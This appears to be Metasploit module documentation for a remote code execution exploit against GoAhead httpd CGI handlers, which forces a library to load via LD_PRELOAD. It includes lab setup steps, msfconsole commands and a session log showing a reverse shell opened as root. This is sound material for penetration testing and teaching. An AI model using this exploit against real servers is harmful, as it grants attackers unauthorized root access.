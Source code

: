## Vulnerable Application

  The GoAhead httpd server between versions 2.5 and 3.6.4 are vulnerable to an arbitrary code execution
  vulnerability where a remote attacker can force a supplied shared library to be loaded into the process
  of a CGI application. This module delivers a shared library payload as the raw data to a POST request
  and forces this to be loaded by specifying a `LD_PRELOAD` value of `/proc/self/fd/0`.

### Kali 2017.3 and Ubuntu 16.04 Install Instructions

These instructions are based on the vulerability analysis by [elttam.com.au](https://www.elttam.com.au/blog/goahead/)

```
git clone https://github.com/embedthis/goahead.git
cd goahead/
git checkout tags/v3.6.4 -q
make > /dev/null
cd test
gcc ./cgitest.c -o cgi-bin/cgitest
sudo ../build/linux-x64-default/bin/goahead
```

## Verification Steps

  Example steps in this format (is also in the PR):

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/goahead_cgi_exec```
  4. Do: ```set rhost [ip]```
  5. Do: ```exploit```
  6. You should get a shell.

## Options

  **TARGET_URI**

  Optional. The full path to a CGI endpoint on the target server.

## Scenarios

### GoAhead 3.6.4 on Ubuntu 16.04 x64

```
[*] Processing goahead.rc for ERB directives.
resource (goahead.rc)> use exploit/linux/http/goahead_cgi_exec
resource (goahead.rc)> set verbose true
verbose => true
resource (goahead.rc)> set rhost 127.1.1.1
rhost => 127.1.1.1
resource (goahead.rc)> check
<TBD>
resource (goahead.rc)> exploit
[*] Started reverse TCP handler on 127.1.1.1:4444
[*] Sending Exploit to /cgi-bin/cgitest
[*] Command shell session 1 opened (127.1.1.1:4444 -> 127.1.1.1:45762) at 2017-12-23 17:12:39 -0500
uname -a
Linux goahead 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

whoami
root
```
